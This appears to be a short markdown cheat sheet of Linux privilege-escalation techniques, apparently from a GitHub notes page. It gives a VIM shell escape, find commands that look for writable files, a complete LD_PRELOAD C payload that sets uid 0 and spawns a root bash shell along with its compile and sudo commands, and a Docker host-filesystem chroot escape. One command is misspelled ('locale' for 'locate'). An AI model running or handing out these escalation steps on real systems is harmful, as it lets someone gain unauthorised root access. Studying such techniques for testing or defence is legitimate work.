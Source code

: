 ### User and permission
-  List cmd that current user can execute as root without password
    ```bash
    sudo -l -S
    ```
- Get shell in VIM: `:!/bin/bash`

### File and directory
- Locate file fast: 
    ```bash
    locale filename
    ````
- Find file cooresponding to a user/group
    ```bash
    find / -group www-data 2>/dev/null
    ````
- Find file that is writable for current user
    ```bash
    find -type f -maxdepth 1 -writable 2>/dev/null
    ````

### Linux Privilege Escalation
- #### Resources:
    - https://book.hacktricks.xyz/linux-hardening/privilege-escalation
- #### LD_PRELOAD
    - Code injection with LD_PRELOAD, LD_PRELOAD is a shared library that will loaded before libc.
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        // Get root shell
        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash");
        }
        ```
        ```bash
        gcc -fPIC -shared -o /tmp/pe.so pe.c -nostartfiles # Complie
        sudo LD_PRELOAD=/tmp/pe.so <COMMAND>
        ```
### With Docker
- ###
    ```bash
    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```